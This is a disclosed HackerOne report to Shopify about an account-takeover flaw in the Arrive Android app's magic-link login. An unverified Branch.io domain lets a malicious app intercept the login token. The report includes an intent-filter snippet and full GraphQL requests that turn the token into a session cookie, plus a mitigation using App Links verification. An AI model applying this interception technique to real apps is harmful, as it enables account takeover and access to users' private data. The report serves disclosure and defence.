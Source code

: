 # Account takeover intercepting magic link for Arrive app

## Report Details
- **Report ID**: 855618
- **URL**: https://hackerone.com/reports/855618
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-04-22T01:06:10.829Z
- **Disclosed**: 2020-07-15T21:30:26.324Z

## Reporter
- **Username**: nsl182
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
### Summary

The "magic link" used for login by Arrive app uses Branch.io to pass the login token via deeplink to the app. But the URL contained in the link (app.link domain) is not verified so it can be intercepted by a malicious app at takeover the account.

### Description

When trying to login with Arrive app the user needs to request a login email to continue the login process. The user receives an email with a button to "Confirm the Email Address" that point to an URL of this kind:

https://qvay.app.link/R3DvpIJKtR?%24uri_redirect_mode=2&token=FdPxCtPAaPUJ7hhLg75QeHFCRCk3ATxcvrim74QJiz87kzXBQecLYtjo2p4wgHRa&secret=FdPxCtPAaPUJ7hhLg75QeHFCRCk3ATxcvrim74QJiz87kzXBQecLYtjo2p4wgHRa

This URL belong to branch.io and it will generate a chrome deeplink that will open Arrive app passing the token (visible in the URL) and continue the login flow.

This domain (qvay.app.link) is not verified by the app via App Link, so it can be listened by any malicious app when a use tries to open a link to it.

You can see that the `assetlinks.json` of that domain is empty: https://qvay.app.link/.well-known/assetlinks.json
It can be configured to prevent these type of attacks. More info here: https://help.branch.io/using-branch/docs/android-app-links

### Exploit

A malicious app can create an `intent-filter` to listen to that domain like this:

```
<intent-filter>
	<action android:name="android.intent.action.VIEW" />
	<category android:name="android.intent.category.DEFAULT" />
	<category android:name="android.intent.category.BROWSABLE" />
	<data android:scheme="https" />
	<data android:host="qvay.app.link" />
</intent-filter>
```

After the link is intercepted, we have a token we can Verify in order to get a `_arrive-server_session` cookie

For this we can do a POST request similar to this:

```
POST /graphql HTTP/1.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Cookie: _arrive-server_session=2a969ef15e1cc286ca6c5a88433d7173
User-Agent: Dalvik/2.1.0 (Linux; U; Android 8.1.0; Nexus 5X Build/OPM7.181105.004)
Host: arrive-server.shopifycloud.com
Connection: close
Content-Length: 346

{"operationName":"VerifyToken","variables":{"token":"TOKENHERE"},"query":"mutation VerifyToken($token: String!) {\n  verifyToken(token: $token) {\n    user {\n      id\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

The response will include a valid `_arrive-server_session` cookie we can use to access other parts of the app and pretty much taking over the account.

### Bonus

The malicious app doesn't even have to wait for the user to request a login email, it can trigger it by itself (considering it know the emails, but thats doable checking the email accounts of the phone via Android SDK)

To request an email the malicious app can request this way:

```
POST /graphql HTTP/1.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
User-Agent: Dalvik/2.1.0 (Linux; U; Android 8.1.0; Nexus 5X Build/OPM7.181105.004)
Host: arrive-server.shopifycloud.com
Connection: close
Content-Length: 293

{"operationName":"SendVerificationEmail","variables":{"email":"EMAILHERE"},"query":"mutation SendVerificationEmail($email: String!) {\n  sendVerificationEmail(email: $email) {\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

Not only it will create the email, but also will give us a `_arrive-server_session` cookie in the response that we can use for the previous step when we are validating the token.

### Mitigation

In order to prevent a malicious app to take advantage of this exploit it will require to implement the App Links  verification for the `http://qvay.app.link` domain, and verify that link in the `AndroidManifest.xml` of the app. Steps are here: https://help.branch.io/using-branch/docs/android-app-links

### PoC and Video

Attached can be found a video where i explain both scenarios:
- User requests email via Arrive app and the malicious app intercepts the link opening and obtains a valid session cookie
- Malicious app requests the email and intercepts the link when the user finally opens it. 

Also attached is the `.apk` of the "malicious" app i used as PoC and for the video. Can provide sources if needed, but pretty much all the requests i'm making are explained here.

#### Reference material
https://www.nowsecure.com/blog/2019/04/05/how-to-guard-against-mobile-app-deep-link-abuse/
https://developer.android.com/training/app-links/verify-site-associations

## Impact

The account is compromised and the malicious app can potentially access private data like location, etc...

## Attachments
- arrive-exploit.apk
- arrive.mp4
